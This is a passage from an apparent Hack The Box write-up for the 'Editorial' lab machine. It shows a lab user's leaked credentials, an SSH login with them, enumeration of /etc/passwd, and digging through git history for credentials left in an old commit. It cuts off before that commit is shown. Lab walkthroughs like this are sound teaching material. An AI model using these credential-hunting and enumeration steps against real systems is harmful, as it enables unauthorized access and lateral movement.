 It has a username and password. `dev : dev080217_devAPI!@`
### SSH

```bash
➜  editorial ssh dev@editorial.htb
dev@editorial.htb's password:
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-112-generic x86_64)
    <SNIP>
dev@editorial:~$ ls -lah
total 32K
drwxr-x--- 4 dev  dev  4.0K Jun  5 14:36 .
drwxr-xr-x 4 root root 4.0K Jun  5 14:36 ..
drwxrwxr-x 3 dev  dev  4.0K Jun  5 14:36 apps
lrwxrwxrwx 1 root root    9 Feb  6  2023 .bash_history -> /dev/null
-rw-r--r-- 1 dev  dev   220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 dev  dev  3.7K Jan  6  2022 .bashrc
drwx------ 2 dev  dev  4.0K Jun  5 14:36 .cache
-rw-r--r-- 1 dev  dev   807 Jan  6  2022 .profile
-rw-r----- 1 root dev    33 Nov 27 12:51 user.txt
```
![](hackercat.png)

Looking at the box, there are only 2 users. 
```bash
dev@editorial:~/apps$ cat /etc/passwd | grep "bash"
root:x:0:0:root:/root:/bin/bash
prod:x:1000:1000:Alirio Acosta:/home/prod:/bin/bash
dev:x:1001:1001::/home/dev:/bin/bash
```

## Shell as prod
### git commits

There is `apps` in dev's home directory which has a `.git` directory!
```bash
dev@editorial:~/apps$ ls -lah
total 12K
drwxrwxr-x 3 dev dev 4.0K Jun  5 14:36 .
drwxr-x--- 4 dev dev 4.0K Jun  5 14:36 ..
drwxr-xr-x 8 dev dev 4.0K Jun  5 14:36 .git
```
I looked at git logs and found an interesting commit that stood out.
```bash
dev@editorial:~/apps$ git log
commit 8ad0f3187e2bda88bba85074635ea942974587e8 (HEAD -> master)
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
    <SNIP>

commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev

    * To use development environment.

    <SNIP>
:
```
This `b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae` commit's commit message mentions that there was downgrading made from prod to dev.
Looking at the commit, it has some juicy stuff. 
